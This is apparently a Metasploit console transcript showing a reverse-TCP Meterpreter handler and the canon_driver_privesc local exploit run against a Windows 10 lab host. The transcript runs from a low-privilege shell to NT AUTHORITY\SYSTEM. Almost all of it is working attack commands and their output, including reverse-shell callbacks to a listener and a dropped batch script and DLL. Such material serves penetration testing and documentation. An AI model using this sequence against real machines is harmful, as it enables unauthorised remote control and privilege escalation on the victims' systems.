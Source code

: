 ```
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf exploit(multi/handler) > set lport 1270
lport => 1270
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:49816) at 2021-08-05 11:14:25 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/canon_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/canon_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf exploit(windows/local/canon_driver_privesc) > set session 1
session => 1
msf exploit(windows/local/canon_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[*] Adding printer ePzTcgz...
[*] Sending stage (200262 bytes) to 10.0.0.7
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:49819) at 2021-08-05 11:15:31 -0400
[*] Deleting printer ePzTcgz

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > quit
[*] Shutting down Meterpreter...
```
